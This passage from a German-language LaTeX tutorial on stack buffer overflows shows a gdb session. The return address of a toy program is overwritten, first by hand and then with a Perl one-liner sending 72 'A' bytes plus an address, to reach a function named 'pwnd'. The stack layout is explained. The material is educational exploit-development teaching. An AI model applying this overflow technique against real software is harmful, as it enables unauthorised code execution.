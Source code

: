 \begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]	

End of assembler dump.
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) set {char}0x7fffffffe998 = 0x0c
(gdb) set {char}0x7fffffffe999 = 0x06
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040060c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) c
Continuing.
PWND!
[Inferior 1 (process 1190) exited normally]
(gdb)
\end{lstlisting}

Um den Aufwand einer manuellen Modifikation der Speicheradresse 
möglichst gering zu halten, kann man den Vorgang mit der Script-Sprache \texttt{Perl} 
automatisieren:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) run `perl -e 'print "A"x72 . "\x0c\x06\x40"'`
String: AAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAA@
PWND!
[Inferior 1 (process 1624) exited normally]
(gdb)
\end{lstlisting}

\newpage
Dabei werden insgesamt \SI{72}{Byte} mit dem Zeichen \texttt{A} 
überschrieben und \SI{3}{Byte} mit hexadezimalen Werten:

\begin{itemize}
      \item \SI{64}{Byte} Speicherplatz der \texttt{data}-Variablen    
      \item \SI{8}{Byte} Basepointer
      \item \SI{3}{Byte} Rücksprungadresse unter Berücksichtigung der Byteorder (Little-Endian)
\end{itemize}

\textbf{Hinweis:}

Wird zur Nachstellung des Beispiels ein veralteter \texttt{gcc}-Compiler 
in der Version 3.x (vgl. \cite{stack_layout}) %
verwendet, ist es möglich, dass dieses Beispiel nicht funktioniert!

